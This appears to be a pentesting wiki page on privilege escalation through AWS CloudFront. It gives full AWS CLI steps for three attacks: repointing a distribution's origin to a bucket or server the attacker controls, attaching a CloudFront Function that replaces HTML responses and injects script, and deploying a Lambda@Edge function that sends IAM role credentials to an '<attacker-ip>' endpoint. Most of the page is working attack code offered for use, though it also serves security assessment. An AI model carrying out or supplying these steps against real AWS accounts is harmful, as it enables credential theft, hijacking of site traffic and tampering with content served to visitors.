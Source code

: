 # AWS - CloudFront Privesc

## CloudFront

### `cloudfront:UpdateDistribution` & `cloudfront:GetDistributionConfig`

An attacker who has cloudfront:UpdateDistribution and cloudfront:GetDistributionConfig permissions can modify a CloudFront distribution’s configuration. They don’t need permissions on the target S3 bucket itself, although the attack is easier if that bucket has a permissive policy that allows access from the cloudfront.amazonaws.com service principal.

The attacker changes a distribution’s origin configuration to point to another S3 bucket or to a server controlled by the attacker. First they fetch the current distribution configuration:

```bash
aws cloudfront get-distribution-config --id <distribution-id> | jq '.DistributionConfig' > current-config.json
```

Then they edit current-config.json to point the origin to the new resource — for example, a different S3 bucket:

```bash
...
"Origins": {
  "Quantity": 1,
  "Items": [
    {
      "Id": "<origin-id>",
      "DomainName": "<new-bucket>.s3.us-east-1.amazonaws.com",
      "OriginPath": "",
      "CustomHeaders": {
        "Quantity": 0
      },
      "S3OriginConfig": {
        "OriginAccessIdentity": "",
        "OriginReadTimeout": 30
      },
      "ConnectionAttempts": 3,
      "ConnectionTimeout": 10,
      "OriginShield": {
        "Enabled": false
      },
      "OriginAccessControlId": "E30N32Y4IBZ971"
    }
  ]
},
...
```

Finally, apply the modified configuration (you must supply the current ETag when updating):

```bash
CURRENT_ETAG=$(aws cloudfront get-distribution-config --id <distribution-id> --query 'ETag' --output text)

aws cloudfront update-distribution \
  --id <distribution-id> \
  --distribution-config file://current-config.json \
  --if-match $CURRENT_ETAG
  ```

### `cloudfront:UpdateFunction`, `cloudfront:PublishFunction`, `cloudfront:GetFunction`, `cloudfront:CreateFunction` and `cloudfront:AssociateFunction`
An attacker needs the permissions cloudfront:UpdateFunction, cloudfront:PublishFunction, cloudfront:GetFunction, cloudfront:CreateFunction and cloudfront:AssociateFunction to manipulate or create CloudFront functions.

The attacker creates a malicious CloudFront Function that injects JavaScript into HTML responses:

```bash
function handler(event) {
  var request = event.request;
  var response = event.response;
  // Create a new body with malicious JavaScript
  var maliciousBody = 
  <!DOCTYPE html>
  <html>
  <head>
  Compromised Page

  </head>
  <body>
  Original Content
================

  This page has been modified by CloudFront Functions

  <script>
  // Malicious JavaScript
  alert('CloudFront Function Code Injection Successful!');
  </script>
  </body>
  </html>
  ;
  // Replace the body entirely
  response.body = { encoding: "text", data: maliciousBody };
  // Update headers
  response.headers["content-type"] = { value: "text/html; charset=utf-8" };
  response.headers["content-length"] = {
    value: maliciousBody.length.toString(),
  };
  response.headers["x-cloudfront-function"] = { value: "malicious-injection" };
  return response;
}
```

Commands to create, publish and attach the function:

```bash
# Create the malicious function in CloudFront
aws cloudfront create-function --name malicious-function --function-config '{
    "Comment": "Malicious CloudFront Function for Code Injection",
    "Runtime": "cloudfront-js-1.0"
}' --function-code fileb://malicious-function.js

# Get the ETag of the function in DEVELOPMENT stage
aws cloudfront describe-function --name malicious-function --stage DEVELOPMENT --query 'ETag' --output text

# Publish the function to LIVE stage
aws cloudfront publish-function --name malicious-function --if-match <etag>
```

Add the function to the distribution configuration (FunctionAssociations):

```bash
"FunctionAssociations": {
  "Quantity": 1,
  "Items": [
    {
      "FunctionARN": "arn:aws:cloudfront::<account-id>:function/malicious-function",
      "EventType": "viewer-response"
    }
  ]
}
```

Finally update the distribution configuration (remember to supply the current ETag):

```bash
CURRENT_ETAG=$(aws cloudfront get-distribution-config --id <distribution-id> --query 'ETag' --output text)

aws cloudfront update-distribution --id <distribution-id> --distribution-config file://current-config.json --if-match $CURRENT_ETAG
```

### `lambda:CreateFunction`, `lambda:UpdateFunctionCode`, `lambda:PublishVersion`, `iam:PassRole` & `cloudfront:UpdateDistribution`

An attacker needs the lambda:CreateFunction, lambda:UpdateFunctionCode, lambda:PublishVersion, iam:PassRole and cloudfront:UpdateDistribution permissions to create and associate malicious Lambda@Edge functions. A role that can be assumed by the lambda.amazonaws.com and edgelambda.amazonaws.com service principals is also required.

The attacker creates a malicious Lambda@Edge function that steals the IAM role credentials:

```bash
// malicious-lambda-edge.js
exports.handler = async (event) => {
  // Obtain role credentials
  const credentials = {
    accessKeyId: process.env.AWS_ACCESS_KEY_ID,
    secretAccessKey: process.env.AWS_SECRET_ACCESS_KEY,
    sessionToken: process.env.AWS_SESSION_TOKEN,
  };
  // Send credentials to attacker's server
  try {
    await fetch("https://<attacker-ip>/steal-credentials", {
      method: "POST",
      headers: { "Content-Type": "application/json" },
      body: JSON.stringify(credentials)
    });
  } catch (error) {
    console.error("Error sending credentials:", error);
  }
  if (event.Records && event.Records[0] && event.Records[0].cf) {
    // Modify response headers
    const response = event.Records[0].cf.response;
    response.headers["x-credential-theft"] = [
      {
        key: "X-Credential-Theft",
        value: "Successful",
      },
    ];
    return response;
  }
  return {
    statusCode: 200,
    body: JSON.stringify({ message: "Credentials stolen" })
  };
};
```

```bash
# Package the Lambda@Edge function
zip malicious-lambda-edge.zip malicious-lambda-edge.js

# Create the Lambda@Edge function with a privileged role
aws lambda create-function \
    --function-name malicious-lambda-edge \
    --runtime nodejs18.x \
    --role <privileged-role-arn> \
    --handler malicious-lambda-edge.handler \
    --zip-file fileb://malicious-lambda-edge.zip \
    --region <region>

# Publish a version of the function
aws lambda publish-version --function-name malicious-lambda-edge --region <region>
```

Then the attacker updates the CloudFront distribution configuration to reference the published Lambda@Edge version:

```bash
"LambdaFunctionAssociations": {
  "Quantity": 1,
  "Items": [
    {
      "LambdaFunctionARN": "arn:aws:lambda:us-east-1:<account-id>:function:malicious-lambda-edge:1",
      "EventType": "viewer-response",
      "IncludeBody": false
    }
  ]
}
```

```bash
# Apply the updated distribution config (must use current ETag)
CURRENT_ETAG=$(aws cloudfront get-distribution-config --id <distribution-id> --query 'ETag' --output text)

aws cloudfront update-distribution \
  --id <distribution-id> \
  --distribution-config file://current-config.json \
  --if-match $CURRENT_ETAG

# Trigger the function by requesting the distribution
curl -v https://<distribution-domain>.cloudfront.net/
```

